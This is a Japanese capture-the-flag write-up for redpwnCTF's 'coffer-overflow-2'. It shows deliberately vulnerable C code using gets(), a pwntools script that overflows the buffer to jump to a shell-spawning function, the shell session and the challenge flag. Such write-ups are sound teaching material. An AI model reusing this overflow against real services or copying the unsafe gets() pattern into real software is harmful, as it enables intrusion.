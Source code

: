 # coffer-overflow-2 (530 solves / 304 points)

> You'll have to jump to a function now!?

coffer-overflow-2.c, coffer-overflow-2というファイルが添付されていた。

## solution

coffer-overflow-2.cは以下の通り

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```

BOFの脆弱性があり、`binFunction`で`system("/bin/sh")`を実行しているので、リターンアドレスを`binFunction`にするだけで良い

```python
# solve.py
from pwn import *

elf = ELF('./coffer-overflow-2')

bin_func_addr = elf.symbols['binFunction']
offset = 24

payload = b'A' * offset
payload += p64(bin_func_addr)

#p = process('./coffer-overflow-2')
p = remote('2020.redpwnc.tf', 31908)

p.sendline(payload)
p.interactive()```

```
```
$ python solve.py
...
[+] Opening connection to 2020.redpwnc.tf on port 31908: Done
[*] Switching to interactive mode
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
$ ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```
